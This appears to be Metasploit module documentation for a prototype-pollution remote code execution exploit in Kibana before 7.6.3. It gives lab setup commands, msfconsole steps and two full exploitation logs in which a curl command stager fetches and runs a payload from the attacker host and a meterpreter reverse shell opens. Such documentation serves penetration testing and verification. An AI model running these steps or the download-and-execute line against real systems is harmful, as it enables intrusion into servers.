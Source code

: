 ## Vulnerable Application

Kibana before version 7.6.3 suffers from a prototype pollution bug within the
Upgrade Assistant. By setting a new constructor.prototype.sourceURL value we're
able to execute arbitrary code.
Code execution is possible through two different ways. Either by sending data
directly to Elastic, or using Kibana to submit the same queries. Either method
enters the polluted prototype for Kibana to read.

Kibana will either need to be restarted, or collection happens (unknown time) for
the payload to execute. Once it does, cleanup must delete the .kibana_1 index
for Kibana to restart successfully. Once a callback does occur, cleanup will
happen allowing Kibana to be successfully restarted on next attempt.

### Install

A docker version of Kibana and Elastic are required. Both can be run together in a working mode via:

```
docker run --name es01 -e "discovery.type=single-node" -d -p 9200:9200 docker.elastic.co/elasticsearch/elasticsearch:7.6.2
docker run --name kib01 --link es01:elasticsearch -d -p 5601:5601 docker.elastic.co/kibana/kibana:7.6.2
```

To restart Kibana (easier during exploitation) issue the following command: `docker kill kib01; docker start kib01`

To wipe the boxes: `docker kill kib01; docker kill es01; docker container rm es01; docker container rm kib01`

## Verification Steps

1. Install the application
1. Start msfconsole
1. Do: `use use exploit/linux/http/kibana_upgrade_assistant_telemetry_rce`
1. Do: `set rhost [ip]`
1. Do: `set lhost [ip]`
1. Do: `run`
1. You should get a shell as the kibana user.

## Options

## Scenarios

### Kibana 7.6.2 on Docker (Elastic Target)

In this scenario, the cleanup process within Kibana kicked automatically, so no reboot of the host/service was required.

```
[*] Processing kibana_telem.rb for ERB directives.
resource (kibana_telem.rb)> use exploit/linux/http/kibana_upgrade_assistant_telemetry_rce
[*] Using configured payload linux/x64/meterpreter/reverse_tcp
resource (kibana_telem.rb)> set rhosts 127.0.0.1
rhosts => 127.0.0.1
resource (kibana_telem.rb)> set rport 9200
rport => 9200
resource (kibana_telem.rb)> set verbose true
verbose => true
resource (kibana_telem.rb)> set lhost 1.1.1.1
lhost => 1.1.1.1
msf6 exploit(linux/http/kibana_upgrade_assistant_telemetry_rce) > exploit

[*] Started reverse TCP handler on 1.1.1.1:4444 
[*] Creating index
[*] Index already exists
[*] Sending index map
[*] Sending telemetry data with payload
[*] Using URL: http://1.1.1.1:8080/1vtNc3Hi
[*] Generated command stager: ["curl -so /tmp/LAbvDplC http://1.1.1.1:8080/1vtNc3Hi;chmod +x /tmp/LAbvDplC;/tmp/LAbvDplC;rm -f /tmp/LAbvDplC"]
[*] Command Stager progress - 100.00% done (114/114 bytes)
[*] Waiting 1800 seconds for shell (kibana restart/cleanup)
[*] Client 172.17.0.3 (curl/7.29.0) requested /1vtNc3Hi
[*] Sending payload to 172.17.0.3 (curl/7.29.0)
[*] Transmitting intermediate stager...(126 bytes)
[*] Sending stage (3045380 bytes) to 172.17.0.3
[*] Meterpreter session 1 opened (1.1.1.1:4444 -> 172.17.0.3:44668) at 2023-10-02 16:46:35 -0400
[*] Removing telemetry data to prevent Kibana locking on restart

meterpreter > getuid
Server username: kibana
meterpreter > sysinfo
Computer     : 172.17.0.3
OS           : CentOS 7.7.1908 (Linux 6.5.0-kali1-amd64)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
```

### Kibana 7.6.2 on Docker (Kibana Target)

```
[*] Processing kibana_telem.rb for ERB directives.
resource (kibana_telem.rb)> use exploit/linux/http/kibana_upgrade_assistant_telemetry_rce
[*] Using configured payload linux/x64/meterpreter/reverse_tcp
resource (kibana_telem.rb)> set rhosts 127.0.0.1
rhosts => 127.0.0.1
resource (kibana_telem.rb)> set rport 9200
rport => 9200
resource (kibana_telem.rb)> set verbose true
verbose => true
resource (kibana_telem.rb)> set lhost 1.1.1.1
lhost => 1.1.1.1
msf6 exploit(linux/http/kibana_upgrade_assistant_telemetry_rce) > set target 1
target => 1
msf6 exploit(linux/http/kibana_upgrade_assistant_telemetry_rce) > set rport 5601
rport => 5601
msf6 exploit(linux/http/kibana_upgrade_assistant_telemetry_rce) > check
[*] 127.0.0.1:5601 - The target appears to be vulnerable. Exploitable Version Detected: 7.6.2
msf6 exploit(linux/http/kibana_upgrade_assistant_telemetry_rce) > exploit

[*] Started reverse TCP handler on 1.1.1.1:4444 
[*] Creating index
[*] Index already exists
[*] Sending index map
[*] Sending telemetry data with payload
[*] Using URL: http://1.1.1.1:8080/PbT2tbJKQyU
[*] Generated command stager: ["curl -so /tmp/AcwIGAZC http://1.1.1.1:8080/PbT2tbJKQyU;chmod +x /tmp/AcwIGAZC;/tmp/AcwIGAZC;rm -f /tmp/AcwIGAZC"]
[*] Command Stager progress - 100.00% done (117/117 bytes)
[*] Waiting 1800 seconds for shell (kibana restart/cleanup)
```

After several minutes, the host was rebooted instead of waiting for the cleanup process to happen. Docker host reboot was done
with the following command: `docker kill kib01; docker start kib01`

```
[*] Client 172.17.0.3 (curl/7.29.0) requested /PbT2tbJKQyU
[*] Sending payload to 172.17.0.3 (curl/7.29.0)
[*] Transmitting intermediate stager...(126 bytes)
[*] Sending stage (3045380 bytes) to 172.17.0.3
[*] Meterpreter session 1 opened (1.1.1.1:4444 -> 172.17.0.3:53100) at 2023-10-02 16:51:34 -0400
[-] Cleanup must happen on the Elastic Database for Kibana to start. You need to DELETE /.kibana_1

meterpreter > getuid
Server username: kibana
meterpreter > sysinfo
Computer     : 172.17.0.3
OS           : CentOS 7.7.1908 (Linux 6.5.0-kali1-amd64)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
```

